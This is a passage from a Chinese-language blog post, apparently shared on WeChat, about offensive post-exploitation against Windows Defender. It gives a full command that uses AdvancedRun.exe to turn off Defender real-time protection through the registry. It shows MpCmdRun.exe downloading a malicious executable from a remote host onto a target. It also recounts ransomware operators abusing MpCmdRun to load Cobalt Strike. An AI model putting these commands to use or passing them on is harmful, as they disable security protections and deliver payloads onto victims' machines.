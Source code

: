 或者使用命令行

    
    
    AdvancedRun.exe /EXEFilename "%windir%\system32\cmd.exe" /CommandLine '/c reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /d 1 /t REG_DWORD /f' /RunAs 8 /Run

## 补充2：MpCmdRun.exe利用

### MpCmdRun恶意文件下载

Windows
Defender自带的命令执行工具"MpCmdRun.exe"可以用来实现远程下载恶意文件的目的，但是免杀好像还是不太可靠，不过我们可以在cmd中关闭Windows
Defender，所以这样一来，一结合就变得有意思多了，不管在使用该思路的过程中还需要权限提升，但是CS因为在后渗透测试中有很好的辅助功能，所以总体来说还是划算的~
PS：经过实验发现在新版本中下载任何文件Windows
defender都会报毒并隔离（下图），若尝试关闭实时保护则mpcmdrun不可用。。。不过老版本defender还是可以的。在目标主机上使用Windows
Defender自带的MpCmdRun.exe程序下载恶意文件

    
    
    MpCmdRun.exe -DownloadFile -url http://*.*.*.*:81/co.exe -path c:\co.exe

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230223090407.png)

### MpCmdRun.exe解密和加载Cobalt Strike攻击载荷

这篇文章是7月底发布的，还算比较新（在我10月份写这篇文章的时候）。https://www.bleepingcomputer.com/news/security/lockbit-
ransomware-abuses-windows-defender-to-load-cobalt-strike/
一开始还以为是生成含有恶意载荷的dll文件替为MPClient.dll后就可以执行，结果在自己机器上尝试了一下根本不能上线，仔细看了看（谷歌翻译后）才明白大意是攻击者通过MpCmdRun.exe
加载修改后的MPClient.dll执行c0000015.log进而实现上线Cobalt
Strike，当然这就触及到我的知识盲区了，感兴趣的铁子可以继续研究一下（教教我）。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230223090410.png)

## 参考文章

https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-Windows-
Defender

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230223090411.png)

E

N

D

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

